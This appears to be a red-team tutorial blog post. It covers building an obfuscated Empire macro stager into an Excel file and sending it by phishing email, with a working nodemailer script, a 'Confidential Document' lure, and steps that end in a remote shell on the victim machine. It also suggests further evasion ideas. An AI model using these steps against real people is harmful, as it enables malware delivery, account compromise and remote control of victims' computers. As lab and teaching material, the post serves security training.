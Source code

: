 ```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2021-11-04
categories: [malware, phishing, nodejs, gmail, starkiller, macros]
---
```


## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![1](assets\img\redteam1\1.png)

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![[2.png]]

- Create Stager 

```
windows/macro
```

![[3.png]]

- Copy the Macro 

![[4.png]]

- Start C# Empire Server

![[5.png]]

## Windows

- paste the macro stager to the windows vm
- macro.vba

![[6.png]]

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![[7.png]]

- the new obfuscated vba

![[8.png]]

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![[9.png]]

![[10.png]]

![[11.png]]

- Replace the empty function with the obs_macro's contents

![[12.png]]

- Save it as xlsm

![[13.png]]


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![[14.png]]

## Victims Emails

![[15.png]]

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![[16.png]]

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![[17.png]]

- Enable Content

![[18.png]]

- Run Macro

![[19.png]]

## Agent Created (Kali)

![[20.png]]

- File Browser

![[21.png]]

- Interact /  Shell Command

![[22.png]]

## Virus Total

![[23.png]]

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***






